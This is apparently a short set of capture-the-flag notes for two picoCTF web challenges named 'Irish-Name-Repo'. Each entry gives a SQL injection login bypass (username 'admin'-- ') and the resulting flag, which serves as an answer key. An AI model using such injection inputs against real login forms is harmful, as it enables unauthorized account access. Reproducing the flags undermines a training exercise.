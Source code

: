 ![alt text](./images/image-119.png)


# Irish-Name-Repo 1
-- Test : username=`admin'-- ` & password=abc -> Flag : `picoCTF{s0m3_SQL_c218b685}`

![alt text](./images/image-120.png)


# Irish-Name-Repo 2
-- Test : username=`admin'-- ` & password=abc -> Flag : `picoCTF{m0R3_SQL_plz_fa983901}`

![alt text](./images/image-121.png)
